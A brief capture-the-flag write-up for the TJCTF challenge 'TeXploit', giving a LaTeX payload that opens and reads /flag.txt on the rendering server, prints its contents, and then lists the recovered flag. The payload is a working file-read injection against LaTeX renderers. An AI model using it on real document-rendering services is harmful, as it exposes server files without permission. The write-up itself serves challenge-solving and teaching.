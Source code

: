# TJCTF - TeXploit

## Approach

```latex
\newread\f

\openin\f=/flag.txt

\read\f to \fileline

\closein\f

$$\fileline$$
```

![flag.jpg](flag.jpg)

## Flag

```
tjctf{f1l3_i0_1n_l4t3x?}
```
